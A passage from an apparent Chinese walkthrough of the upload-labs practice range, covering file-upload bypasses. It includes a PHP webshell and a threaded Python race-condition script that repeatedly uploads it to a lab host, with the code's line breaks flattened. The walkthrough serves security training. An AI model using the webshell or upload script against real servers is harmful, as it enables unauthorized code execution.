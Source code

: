 查看源码

$is_upload = false;$msg = null;if(isset($_POST['submit'])){    $ext_arr = array('jpg','png','gif');    $file_name = $_FILES['upload_file']['name'];    $temp_file = $_FILES['upload_file']['tmp_name'];    $file_ext = substr($file_name,strrpos($file_name,".")+1);    $upload_file = UPLOAD_PATH . '/' . $file_name;    if(move_uploaded_file($temp_file, $upload_file)){        if(in_array($file_ext,$ext_arr)){             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;             rename($upload_file, $img_path);             $is_upload = true;        }else{            $msg = "只允许上传.jpg|.png|.gif类型文件！";            unlink($upload_file);        }    }else{        $msg = '上传出错！';    }}

判断了后缀名、content-type，以及利用imagecreatefromgif判断是否为gif图片，最后还做了一次二次渲染，改变了图片中的部分内容。

突破思路：将一个正常显示的图片，上传到服务器。将图片被渲染后与原始图片对比，寻找仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。

## Pass-17 条件竞争

$is_upload = false;$msg = null;if(isset($_POST['submit'])){    $ext_arr = array('jpg','png','gif');    $file_name = $_FILES['upload_file']['name'];    $temp_file = $_FILES['upload_file']['tmp_name'];    $file_ext = substr($file_name,strrpos($file_name,".")+1);    $upload_file = UPLOAD_PATH . '/' . $file_name;    if(move_uploaded_file($temp_file, $upload_file)){        if(in_array($file_ext,$ext_arr)){             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;             rename($upload_file, $img_path);             $is_upload = true;        }else{            $msg = "只允许上传.jpg|.png|.gif类型文件！";            unlink($upload_file);        }    }else{        $msg = '上传出错！';    }}

条件竞争：先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则重命名，反之删除，因此我们可以上传3.php只需要在它删除之前访问即可。

思路一：这里可以利用burp的intruder模块不断上传，然后我们不断的访问刷新该地址即可。

思路二：首先pip install hackhttp安装hackhttp模块，然后运行下面的Python脚本即可。在运行的同时连接webshell。  
Python脚本如下

import hackhttpfrom multiprocessing.dummy import Pool as ThreadPooldef upload(lists):    hh = hackhttp.hackhttp()    raw = """POST /Pass-17/index.php HTTP/1.1Host: 192.168.160.141User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateReferer: http://192.168.160.141/Pass-17/index.phpCookie: pass=17Connection: closeUpgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=---------------------------6696274297634Content-Length: 341-----------------------------6696274297634Content-Disposition: form-data; name="upload_file"; filename="3.php"Content-Type: application/octet-stream<?php assert($_POST["LandGrey"])?>-----------------------------6696274297634Content-Disposition: form-data; name="submit"上传-----------------------------6696274297634--"""    code, head, html, redirect, log = hh.http('http://192.168.160.141/Pass-17/index.php', raw=raw)    print(str(code) + "\r")pool = ThreadPool(10)pool.map(upload, range(10000))pool.close()pool.join()

## Pass-18 上传重命名绕过

查看源码
